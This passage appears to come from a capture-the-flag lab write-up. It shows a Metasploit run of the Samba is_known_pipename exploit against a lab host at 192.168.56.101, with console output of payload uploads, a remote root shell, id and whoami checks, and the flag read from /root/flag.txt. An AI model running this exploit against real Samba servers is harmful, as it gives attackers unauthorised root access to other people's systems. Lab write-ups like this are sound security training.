 Time to test our exploit by executing the Metasploit `run` command

```
msf exploit(linux/samba/is_known_pipename) > run

[*] 192.168.56.101:139 - Using location \\192.168.56.101\tmp\ for the path
[*] 192.168.56.101:139 - Retrieving the remote path of the share 'tmp'
[*] 192.168.56.101:139 - Share 'tmp' has server-side path '/var/tmp
[*] 192.168.56.101:139 - Uploaded payload to \\192.168.56.101\tmp\MGRUrglC.so
[*] 192.168.56.101:139 - Loading the payload from server-side path /var/tmp/MGRUrglC.so using \\PIPE\/var/tmp/MGRUrglC.so...
[-] 192.168.56.101:139 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 192.168.56.101:139 - Loading the payload from server-side path /var/tmp/MGRUrglC.so using /var/tmp/MGRUrglC.so...
[-] 192.168.56.101:139 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 192.168.56.101:139 - Uploaded payload to \\192.168.56.101\tmp\NMKJpNjH.so
[*] 192.168.56.101:139 - Loading the payload from server-side path /var/tmp/NMKJpNjH.so using \\PIPE\/var/tmp/NMKJpNjH.so...
[-] 192.168.56.101:139 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 192.168.56.101:139 - Loading the payload from server-side path /var/tmp/NMKJpNjH.so using /var/tmp/NMKJpNjH.so...
[+] 192.168.56.101:139 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
```

And we're in, Metasploit got us a remote shell.  Now unfortunately exploiting Samba vulnerabilites generally leads to root access.  The main samba daemon will fork processes under the authenticated samba user under normal circumstances, but if you can exploit the daemon prior to the fork you generally get root

```
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```

As suspected, root access.  Now lets get that flag

`cat /root/flag.txt`

```
~~~~~~~~~~<(Congratulations)>~~~~~~~~~~
                          .-'''''-.
                          |'-----'|
                          |-.....-|
                          |       |
                          |       |
         _,._             |       |
    __.o`   o`"-.         |       |
 .-O o `"-.o   O )_,._    |       |
( o   O  o )--.-"`O   o"-.`'-----'`
 '--------'  (   o  O    o)  
              `----------`
b6b545dc11b7a270f4bad23432190c75162c4a2b
```

















